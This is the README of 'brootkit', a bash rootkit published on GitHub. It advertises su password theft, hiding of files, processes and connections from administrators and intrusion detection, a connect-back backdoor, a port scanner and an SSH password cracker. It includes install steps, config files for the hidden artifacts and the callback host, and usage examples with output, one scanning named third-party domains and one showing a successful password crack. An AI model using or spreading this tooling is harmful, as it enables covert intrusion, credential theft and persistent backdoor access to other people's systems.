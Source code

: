 ######BROOTKIT
    Lightweight rootkit implemented by bash shell scripts v0.10
    
    by wzt 2015   wzt.wzt@gmail.com
    
    If bash shell scripts can be designed for security tools like chkrootkit
    or rkhunter, so it can be implemented for a rootkit.

######FEATURES
    1. more hidable ability against admintrator or hids.
    2. su passwd thief.
    3. hide file and directorys.
    4. hide process.
    5. hide network connections.
    6. connect backdoor.
    7. multi thread port scanner.
    8. http download.
    9. multi thread ssh passwd crack.

######TARGET OS
    1. centos
    2. rhel
    3. ubuntu
    4. debian
    5. fedroa
    6. freebsd

######TODO
    1. sudo thief support.

######INSTALL

    Linux distribution systems.

    1. edit br.conf first

      brootkit config file.

      #the ports will be hide: port1,port2,...,portn.
      HIDE_PORT               8080,8899
      #the files will be hide: file1,file2,...,filen.
      HIDE_FILE               br.conf,bashbd.sh,brootkit,.bdrc,brdaemon
      #the process will be hide: process1,process2,...,processn.
      HIDE_PROC               bashbd,brootkit,pty.spawn,brdaemon
      #the connect back host domain name or ip address.
      REMOTE_HOST             localhost
      #the connect back host port.
      REMOTE_PORT             8080
      #the connect backdoor base sleep time.
      SLEEP_TIME              60
    2. ./install.sh

    3. multi thread port scanner.

      [root@localhost brootkit]$ ./brscan.sh
      ./brscan.sh <-p> [-n|-t|-o|-h] <remote_host>

      option:
      -p              ports, pattern: port1,port2,port3-port7,portn...
      -n              thread num, defalut is 10
      -t              timeout, default is 30s
      -o              results write into log file, default is brscan.log
      -h              help information.

      exp:
      ./brscan.sh -p 21,22,23-25,80,135-139,8080 -t 20 www.cloud-sec.org
      ./brscan.sh -p 1-65525 -n 200 -t 20 www.cloud-sec.org

      [root@localhost brootkit]# ./brscan.sh -p 21,22,23-25,80,135-139,8080 -t 5 -n 20 www.wooyun.org
      host: www.wooyun.org | total ports: 10 | thread num: 10 timeout: 5 | logfile: brscan.log

      thread<0    >           --              pid <57053>     -->     21
      thread<1    >           --              pid <57054>     -->     22
      thread<2    >           --              pid <57055>     -->     23
      thread<3    >           --              pid <57056>     -->     24
      thread<4    >           --              pid <57057>     -->     80
      thread<5    >           --              pid <57058>     -->     135
      thread<6    >           --              pid <57059>     -->     136
      thread<7    >           --              pid <57060>     -->     137
      thread<8    >           --              pid <57061>     -->     138
      thread<9    >           --              pid <57070>     -->     8080

      [>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>]     10/10     6 s

    www.wooyun.org: 80

    4. multi thread ssh passwd crack.
      [root@localhost brootkit]# ./sshcrack.sh
      ./sshcrack.sh <-h host> <-u user> <-p passwd> [-t timeout] [-n threadnum] [-o logfile]

      option:
      -h              host name or host list file.
      -u              user name or user list file.
      -p              single passwd or passwd list file.
      -t              connect timeout, defalut is 5s.
      -n              thread num, default is 1.
      -o              log file.
      -v              display help information.

      exp:

      ./sshcrack.sh -h 192.168.215.148 -u wzt -p passwd.lst
      ./sshcrack.sh -h 192.168.215.148 -u wzt -p passwd.lst -n 10 -t 2
      ./sshcrack.sh -h 192.168.215.148 -u user.lst -p passwd.lst -n 10 -t 2
      ./sshcrack.sh -h host.lst -u user.lst -p passwd.lst -n 10 -t 2

      [root@localhost brootkit]# ./sshcrack.sh -h 192.168.215.148 -u wzt -p passwd.lst -n 6
      host: 1 | users: 1 | passwd: 28 thread: 6 | timeout: 10 | logfile: sshcrack.log

      Thread[ 1]      wzt@192.168.215.148             ==>     [e               ]      [failed]         3
      Thread[ 2]      wzt@192.168.215.148             ==>     [a               ]      [failed]         3
      Thread[ 3]      wzt@192.168.215.148             ==>     [d               ]      [failed]         3
      Thread[ 4]      wzt@192.168.215.148             ==>     [giveshell       ]      [success]        6
      Thread[ 5]      wzt@192.168.215.148             ==>     [123456          ]      [failed]         3
      Thread[ 6]      wzt@192.168.215.148             ==>     [fd              ]      [failed]         3

waiting all threads to finsh...

    Freebsd system
    on the modern freebsd system, root use csh by default, the other users
    use sh default. this version brootkit can only support sh based features.

    1. edit brsh.conf first

    brshootkit config file, only one argument support.

      #the port will be hide.
      HIDE_PORT               8080
      #the files will be hide file.
      HIDE_FILE               brsh
      #the process will be hide process.
      HIDE_PROC               sh
      #the connect back host domain name or ip address.
      REMOTE_HOST             localhost
      #the connect back host port.
      REMOTE_PORT             8080
      #the connect backdoor base sleep time.
      SLEEP_TIME              60
    2. ./install.sh

######SOURCE
    https://github.com/cloudsec/brootkit
